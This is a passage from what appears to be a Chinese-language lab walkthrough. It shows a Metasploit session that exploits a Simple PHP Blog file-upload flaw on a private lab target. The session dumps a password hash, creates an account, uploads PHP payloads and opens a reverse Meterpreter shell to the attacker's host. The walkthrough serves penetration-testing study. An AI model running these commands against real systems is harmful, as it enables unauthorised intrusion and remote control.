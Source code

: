         存在，使用该`exploit`模块
        
        ```sql
        msf6 > use exploit/unix/webapp/sphpblog_file_upload //使用该模块
        [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
        msf6 exploit(unix/webapp/sphpblog_file_upload) > show options //查看该模块需要配置什么
        
        Module options (exploit/unix/webapp/sphpblog_file_upload):
        
           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
           RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                               metasploit.html
           RPORT    80               yes       The target port (TCP)
           SSL      false            no        Negotiate SSL/TLS for outgoing connections
           URI      /sphpblog        yes       Sphpblog directory path
           VHOST                     no        HTTP server virtual host
        
        Payload options (php/meterpreter/reverse_tcp):
        
           Name   Current Setting  Required  Description
           ----   ---------------  --------  -----------
           LHOST  192.168.75.151   yes       The listen address (an interface may be specified)
           LPORT  4444             yes       The listen port
        
        Exploit target:
        
           Id  Name
           --  ----
           0   Automatic
        
        View the full module info with the info, or info -d command.
        
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set rhosts 192.168.75.150 //靶机ip
        rhosts => 192.168.75.150
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set rport 80  //靶机端口
        rport => 80
        msf6 exploit(unix/webapp/sphpblog_file_upload) > set uri /blog/ //攻击目录
        uri => /blog/
        msf6 exploit(unix/webapp/sphpblog_file_upload) > exploit //启动攻击
        
        [*] Started reverse TCP handler on 192.168.75.151:4444 
        [+] Successfully retrieved hash: $1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
        [+] Successfully removed /config/password.txt
        [+] Successfully created temporary account.
        [+] Successfully logged in as OTmoxq:ykM0Fg
        [+] Successfully retrieved cookie: ii9ppvao0fveedft2314so41u3
        [+] Successfully uploaded pVmL1BgOJLbmlN8mucTA.php
        [+] Successfully uploaded gy904amvE6YvJp3W7xkC.php
        [+] Successfully reset original password hash.
        [+] Successfully removed /images/pVmL1BgOJLbmlN8mucTA.php
        [*] Calling payload: /images/gy904amvE6YvJp3W7xkC.php
        [*] Sending stage (39927 bytes) to 192.168.75.150
        [*] Meterpreter session 1 opened (192.168.75.151:4444 -> 192.168.75.150:42500) at 2024-09-24 18:01:33 +0800
        [+] Successfully removed /images/gy904amvE6YvJp3W7xkC.php
        meterpreter > 
        ```
        